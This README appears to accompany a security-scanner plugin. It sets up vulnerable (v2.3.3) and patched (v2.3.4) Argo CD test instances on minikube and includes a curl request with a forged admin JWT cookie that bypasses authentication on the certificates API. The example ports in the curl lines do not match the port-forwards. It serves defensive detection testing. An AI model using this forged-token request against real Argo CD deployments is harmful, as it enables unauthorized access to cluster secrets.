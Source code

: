 # setup requirements
1. k8s with minikube: https://minikube.sigs.k8s.io/docs/start/ (we can use original k8s but this is a easy solution)
2. please don't forget to add `alias kubectl="minikube kubectl --"` to your shell environment.

# setup vulnerable instance (v2.3.3)

```bash
kubectl create namespace argocd
kubectl apply -n argocd -f https://raw.githubusercontent.com/argoproj/argo-cd/v2.3.3/manifests/install.yaml
kubectl edit -n argocd cm argocd-cm -o yaml
```

append the following:
```yaml
data:
  users.anonymous.enabled: "true"
```

check anonymous access is enabled:
`kubectl get -n argocd cm argocd-cm -o jsonpath='{.data.users\.anonymous\.enabled}'`

give access to the server from 127.0.0.1:8082 for testing the plugin:
`kubectl port-forward svc/argocd-server -n argocd 8082:443`

check it manually in another shell:
```bash
curl -s -k -i -X 'GET' -H 'Cookie: argocd.token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJhZG1pbiJ9.TGGTTHuuGpEU8WgobXxkrBtW3NiR3dgw5LR-1DEW3BQ'  'https://127.0.0.1:8080/api/v1/certificates'
```
the response is like the following:
```
HTTP/1.1 200 OK
{"metadata":{},"items":[{"serverName":"bitbucket.org","certType":"ssh",....
```

# setup safe instance (v2.3.4)

```bash
kubectl create namespace argocdsafe
kubectl apply -n argocdsafe -f https://raw.githubusercontent.com/argoproj/argo-cd/v2.3.4/manifests/install.yaml
kubectl edit -n argocdsafe cm argocd-cm -o yaml
```

append the following:
```yaml
data:
  users.anonymous.enabled: "true"
```

check anonymous access is enabled:
`kubectl get -n argocdsafe cm argocd-cm -o jsonpath='{.data.users\.anonymous\.enabled}'`

give access to the server from 127.0.0.1:8081 for testing the plugin:
`kubectl port-forward svc/argocd-server -n argocdsafe 8081:443`

check it manually in another shell:
```bash
curl -s -k -i -X 'GET' -H 'Cookie: argocd.token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJhZG1pbiJ9.TGGTTHuuGpEU8WgobXxkrBtW3NiR3dgw5LR-1DEW3BQ'  'https://127.0.0.1:8080/api/v1/certificates'
```

the response is like the following:
```
HTTP/1.1 200 OK
{"error":"permission denied: certificates, get, ","code":7,"message":"permission denied: certificates, get, "}
```
